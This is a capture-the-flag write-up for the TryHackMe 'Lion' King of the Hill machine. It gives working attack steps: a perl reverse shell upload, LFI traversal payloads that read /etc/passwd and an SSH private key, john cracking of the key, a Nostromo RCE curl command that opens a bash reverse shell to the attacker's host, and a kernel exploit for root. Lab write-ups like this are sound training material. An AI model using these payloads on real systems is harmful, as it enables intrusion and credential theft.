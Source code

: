 # Tryhackme King Of The Hill(koth) Lion
```
writeup for lion machine over at https://tryhackme.com/games/koth

I wont be showing you where the flags are located but they are really easy to find so it shouldn't be too much of a problem
```

# Foothold

## /upload directory as alex
```
we can see there is a /upload directory at port 80 once we dir bust it

uploading a normal php reverse shell is not gonna work in this case

we need to upload a perl reverse shell(https://raw.githubusercontent.com/pentestmonkey/perl-reverse-shell/master/perl-reverse-shell.pl)

change the ip and port and start listening

once you upload the perl reverse shell you will get a shell as alex.

for some reason in the source code it executes the script uploaded with perl.
```

![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/thm/koth/img.png)

## LFI(Local File Inclusion) as gloria
```
there is a LFI at port 5555 with param ?page

we can get the users list by looking in /etc/passwd

http://machineip:5555/?page=../../../../../../../../etc/passwd		

we see there are alex,marty,gloria

out of those 3 users we can get gloria's id_rsa to connect via ssh

http://machineip:5555/?page=../../../../../../../../home/gloria/.ssh/id_rsa

save it to a file
```
```	
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; 
```
```
to crack id_rsa password with john
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337
```

## Nostromo 1.9.6 vulns - Remote Code Execution as gloria
```
Script:
	https://www.exploit-db.com/exploits/47837

Metasploit:
	exploit/multi/http/nostromo_code_exec

Manual method:
	nc -lnvp someport
	curl -s -X POST 'http://machineip:8080/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/yourip/someport 0>&1"' 

can't cd into folders but can ls and cat - we need to get in via ssh
ls /home; to get user names

cat /home/gloria/.ssh/id_rsa; to get gloria's id_rsa for ssh

```
```
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; to crack id_rsa password with john
```
```
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337 
```

# Getting root
```
we run linpeas to find the following
```

## tmux (gloria only?)
```
/usr/bin/tmux -S /.dev/session attach -t 0
```

## Kernel exploit
```
wget https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
chmod +x ./exploit-poc-pentest 

upload the binary to the machine and run it to get root.
```
